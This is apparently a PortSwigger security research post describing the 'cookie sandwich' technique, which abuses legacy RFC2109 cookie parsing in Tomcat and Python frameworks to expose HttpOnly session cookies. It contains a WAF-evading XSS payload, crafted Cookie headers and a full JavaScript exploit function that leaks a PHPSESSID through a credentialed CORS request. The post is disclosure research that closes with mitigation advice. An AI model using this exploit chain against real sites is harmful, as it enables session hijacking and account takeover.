 ```yaml
---
title: Stealing HttpOnly cookies with the cookie sandwich technique
draft: false
date: 2025-05-31
tags:
  - Cookies
  - XSS
  - Zakhar Favourites
---
```


### Stealing HttpOnly cookies with the cookie sandwich technique

Researcher: Zakhar Fedotkin

In this post, I will talk about the "cookie sandwich" trick. It can help you get around the HttpOnly flag on some servers. This is based on the idea from "[Bypassing WAFs with the phantom $Version cookie](https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie)." If you look closely, old cookies let you put special characters in the cookie value. We will use this in this post.

## Cookie sandwich

The cookie sandwich trick changes how web servers read and use cookies when special characters are in them. By using quotes and old cookies in a smart way, someone can trick the server into misunderstanding the cookie header. This could let client-side scripts see HttpOnly cookies.

#### How It Works:

Chrome doesn't support old cookies. This lets attackers make a cookie name that starts with a $, like $Version, from JavaScript. Also, you can put quotes in any cookie value. Here's how to make a cookie sandwich to steal a restricted cookie value:

``document.cookie = `$Version=1;`;
document.cookie = `param1="start`;
// any cookies inside the sandwich will be placed into param1 value server-side
document.cookie = `param2=end";`;
``

The Cookie header in the request/response might appear as:

`GET / HTTP/1.1
Cookie: $Version=1; param1="start; sessionId=secret; param2=end"
=>
HTTP/1.1 200 OK
Set-Cookie: param1="start; sessionId=secret; param2=end";`

How Apache Tomcat reads cookie headers:

- The parser uses both
[RFC6265](https://datatracker.ietf.org/doc/html/rfc6265) and
[RFC2109](https://datatracker.ietf.org/doc/html/rfc2109) standards. If a string starts with the special
[$Version](https://github.com/apache/tomcat/blob/4111137da8712add015a4193da0f7d4d9248941e/java/org/apache/tomcat/util/http/parser/Cookie.java%23L147) attribute, it uses the old way of reading it.

- If a cookie value starts with double quotes, it reads until the next double quote that isn't canceled out.

- It also un-does any character that starts with a backslash (\\).

If the application shows the param1 cookie in the response and doesn't have the HttpOnly attribute, the whole cookie string can be seen. This includes any HttpOnly session cookie sent by the browser between param1 and param2.

Python frameworks support quoted strings by default, so you don't need the special $Version attribute. These frameworks also know that the semicolon separates cookie pairs. They automatically change all special characters into a four-character sequence: a forward slash followed by the three-digit octal number for the character. A "cookie sandwich" attack against a Flask application might look like this:

`GET / HTTP/1.1
Cookie: param1="start; sessionId=secret; param2=end"
=>
HTTP/1.1 200 OK
Set-Cookie: param1="start\073 sessionId=secret\073 param2=end";`

## Real world example

Analytics often use cookies or URL parameters to watch what users do. They don't always check the tracking ID. This makes them a good target for the cookie sandwich attack. Usually, when a user visits a site for the first time, the server makes a random string called **visitorId** and puts it in cookies. This **visitorId** is then shown on the webpage for analytics:

`<script>
{"visitorId":"deadbeef"}
</script>
`

This can cause problems. If an attacker can see the webpage content, they can get around the HttpOnly cookie flag. This can be done through a [CORS](https://portswigger.net/web-security/cors) request with credentials or an XSS attack.

### Stealing an HttpOnly PHPSESSID cookie

In a test, I found an application with an [XSS](https://portswigger.net/web-security/cross-site-scripting) problem on an error page. I was able to use it to steal an HttpOnly PHPSESSID cookie. I had to get around some security and use a tracking domain problem that was missed.

#### Step 1: Finding the XSS Problem

The application showed certain link and meta attributes without properly cleaning them. This let me put in JavaScript code because the server didn’t properly clean the user input. AWS WAF was being used, but it could be gotten around because of a problem
[oncontentvisibilityautostatechange](https://x.com/garethheyes/status/1854191120277733760). Thanks to [@garethheyes](https://x.com/garethheyes) who helped me with that trick:

`<link rel="canonical"
oncontentvisibilityautostatechange="alert(1)"
style="content-visibility:auto">
`

#### Step 2: Finding the Exposed Cookie Parameter

I could run JavaScript on the page. My next goal was to find an HttpOnly cookie linked to the domain. I didn’t find any analytics JavaScript right away. But I discovered a tracking domain that showed the session ID parameter in the JSON response. This tracking endpoint accepted a session parameter in the URL:

`GET /json?session=ignored HTTP/1.1
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie:  session=deadbeef;
` `HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
{"session":"deadbeef"}
`

This website is a good one to use in our attack because:

- it shows the cookie value in the response
- it allows cross origin request from the vulnerable domain

#### Step 3: Using Cookie Downgrade to Steal Information

This tracking application did something interesting. The session URL query parameter is needed, but the server changes its value with the one from the Cookie header. The backend runs on Apache Tomcat, so I used the phantom $Version cookie to switch to
[RFC2109](https://datatracker.ietf.org/doc/html/rfc2109) and do a cookie sandwich attack. But a problem remained: controlling the order of cookies in the client's request. The $Version cookie had to be sent first. To do this, it had to be created earlier or have a path attribute longer than all other cookies. We can't control when the victim's cookie is created, but we can change the path attribute. The path chosen was /json.

I used a carefully made Cookie header to change the order of cookies and steal the HttpOnly PHPSESSID cookie. Here’s an example of the bad request I used:

`GET /json?session=ignored
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie: $Version=1; session="deadbeef; PHPSESSID=secret; dummy=qaz"` `HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
{"session":"deadbeef; PHPSESSID=secret; dummy=qaz"}
`

#### Step 4: Putting It All Together

Here’s how the attack works:

- The user visits a page with the oncontentvisibilityautostatechange XSS payload.

- The JavaScript sets cookies $Version=1 and session="deadbeef. Both cookies have Path value /json to change the cookie order.

- Finally, the script adds the cookie dummy=qaz".
- The script then makes a CORS request to the tracking application endpoint. This shows the changed PHPSESSID cookie in the JSON response.

Final exploit:

``
async function sandwich(target, cookie) {
    // Step 1: Create an iframe with target src and wait for it
    const iframe = document.createElement('iframe');
    const url = new URL(target);
    const domain = url.hostname;
    const path = url.pathname;
    iframe.src = target;
    // Hide the iframe
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    // Optional: Add your code to check and clean client's cookies if needed
    iframe.onload = async () => {
        // Step 2: Create cookie gadget
        document.cookie = `$Version=1; domain=${domain}; path=${path};`;
        document.cookie = `${cookie}="deadbeef; domain=${domain}; path=${path};`;
        document.cookie = `dummy=qaz"; domain=${domain}; path=/;`;
        // Step 3: Send a fetch request
        try {
            const response = await fetch(`${target}`, {
                credentials: 'include',
            });
            const responseData = await response.text();
            // Step 4: Alert response
            alert(responseData);
        } catch (error) {
            console.error('Error fetching data:', error);
        }
    };
}
setTimeout(sandwich, 100, 'http://example.com/json', 'session');
``

With this method, I could get access to the other user session cookie from the JSON response. I used XSS, cookie changes, and the tracking application’s problem.

## Recommendation

Cookie security is important for protecting web applications from attacks. Pay attention to how cookies are coded and read. Understand how cookies are processed by the frameworks and browsers you use. Apache Tomcat versions 8.5.x, 9.0.x and 10.0.x support
[RFC2109](https://datatracker.ietf.org/doc/html/rfc2109).

## Want to learn more?

Check out our previous blog post on bypassing
[WAFs using the phantom $Version cookie](https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie).

Follow us on
[X (formerly Twitter)](https://x.com/portswiggerres) and
[Bluesky](https://bsky.app/profile/portswiggerres.bsky.social),
and join
[the official PortSwigger Discord](https://discord.com/invite/portswigger).

Read Ankur Sundara’s blog post,
[Cookie Bugs - Smuggling & Injection](https://blog.ankursundara.com/cookie-bugs/).

[Cookies](https://portswigger.net/research/cookies) [XSS](https://portswigger.net/research/cross-site-scripting-research) [Zakhar Favourites](https://portswigger.net/research/zakhar-fedotkin)

[Back to all articles](https://portswigger.net/research/articles)

## Related Research

[**Drag and Pwnd: Leverage ASCII characters to exploit VS Code** 30 April 2025Drag and Pwnd: Leverage ASCII characters to exploit VS Code](https://portswigger.net/research/drag-and-pwnd-leverage-ascii-characters-to-exploit-vs-code) [**Bypassing WAFs with the phantom $Version cookie** 04 December 2024Bypassing WAFs with the phantom $Version cookie](https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie) [**Concealing payloads in URL credentials** 23 October 2024Concealing payloads in URL credentials](https://portswigger.net/research/concealing-payloads-in-url-credentials) [**Introducing the URL validation bypass cheat sheet** 03 September 2024Introducing the URL validation bypass cheat sheet](https://portswigger.net/research/introducing-the-url-validation-bypass-cheat-sheet)

[iframe](https://td.doubleclick.net/td/rul/11422135271?random=1748707065065&cv=11&fst=1748707065065&fmt=3&bg=ffffff&guid=ON&async=1&gtm=45be55s2h1v9179205174za200&gcd=13l3l3l3l1l1&dma=0&tag_exp=101509157~103103158~103103160~103116026~103200004~103233427~103252644~103252646~103351866~103351868~104481633~104481635~104559073~104559075~104612245~104612247&u_w=360&u_h=100000&url=https%3A%2F%2Fportswigger.net%2Fresearch%2Fstealing-httponly-cookies-with-the-cookie-sandwich-technique&_ng=1&hn=www.googleadservices.com&frm=0&tiba=Stealing%20HttpOnly%20cookies%20with%20the%20cookie%20sandwich%20technique%20%7C%20PortSwigger%20Research&npa=0&pscdl=noapi&auid=1831129359.1748707065&uaa=x86&uab=64&uafvl=Google%2520Chrome%3B137.0.7151.55%7CChromium%3B137.0.7151.55%7CNot%252FA)Brand%3B24.0.0.0&uamb=0&uam=&uap=Linux%20x86_64&uapv=6.6.72&uaw=0&fledge=1&data=event%3Dgtag.config)

[Reference](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique)
